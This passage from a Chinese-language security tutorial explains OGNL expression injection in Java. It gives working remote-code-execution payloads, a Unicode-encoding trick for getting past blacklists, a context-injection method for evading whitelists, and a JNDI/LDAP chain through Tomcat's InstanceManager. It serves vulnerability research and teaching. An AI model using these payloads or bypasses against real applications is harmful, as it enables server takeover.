 此外，还有如下Tips：

- 如果目标存在黑名单，前面说过，Ognl支持链式调用，那么就可以在context或者root对象中，通过链式调用找到可以利用的对象，例如 `org.apache.tomcat.InstanceManager` 对象；
- Ognl支持调用静态方法，所以可以使用 `@java.lang.Runtime@getRuntime().exec('calc')` 的方式进行RCE；
- Ognl支持通过 `new` 创建对象，所以可以使用 `new java.lang.ProcessBuilder(new java.lang.String[]{\"calc\"})).start()` 进行RCE；

**(2) Bypass手法**

Ognl支持UNICODE编码的表达式，例如如下UNICODE编码的恶意表达式可以成功执行：

```java
public static void sinkFour()throws Exception{
    // @java.lang.Runtime@getRuntime().exec('calc')
    String expression="\\u0040\\u006a\\u0061\\u0076\\u0061\\u002e\\u006c\\u0061\\u006e\\u0067\\u002e\\u0052\\u0075\\u006e\\u0074\\u0069\\u006d\\u0065\\u0040\\u0067\\u0065\\u0074\\u0052\\u0075\\u006e\\u0074\\u0069\\u006d\\u0065\\u0028\\u0029\\u002e\\u0065\\u0078\\u0065\\u0063\\u0028\\u0027\\u0063\\u0061\\u006c\\u0063\\u0027\\u0029";
    OgnlContext context = new OgnlContext();
    Ognl.getValue(expression,context,"");
}
```

输出：

```
java.lang.ProcessImpl@7506e922
```

此外，前面说到，Ognl支持 `Expression Evaluation` 的特性，基于这个特性，如果我们无法直接执行恶意的表达式，那么我们可以 **先将恶意的Ognl表达式注入到Ognl的context或者root中** ，然后通过 `Expression Evaluation` 特性进行调用。如下所示：

```java
/**
 * 测试ExpressionEvaluation
 */
public static void testExpressionEvaluation()throws Exception{
    // 绕过白名单检查，先讲恶意的Ognl表达式放入Ognl的上下文中
    String one="@java.lang.Runtime@getRuntime().exec('calc')";
    OgnlContext context = new OgnlContext();
    context.put("one",one);
    context.put("two","twotow");
    String attackStr="(#one)(#two)";
    Object value = Ognl.getValue(attackStr, context,"");
    System.out.println(value);
}
```

这里并不是直接执行Ognl表达式，而是先想办法将恶意的Ognl表达式注入到context中，然后通过 `(#one)(#two)` 的方式（ `Expression Evaluation` 特性）进行触发。

最终值得一提的就是，很多时候想RCE，我们不必执着于寻找类似 `Runtime` 和 `ProcessBuilder` 等类， `JNDI` 和 `RMI` 等同样能RCE：）例如：

```java
#InstanceManager = #application['org.apache.tomcat.InstanceManager'],
#rw=#InstanceManager.newInstance('com.sun.rowset.JdbcRowSetImpl'),
#rw.setDataSourceName('ldap://127.0.0.1:10086/InstanceManager'),
#rw.getDatabaseMetaData()
```
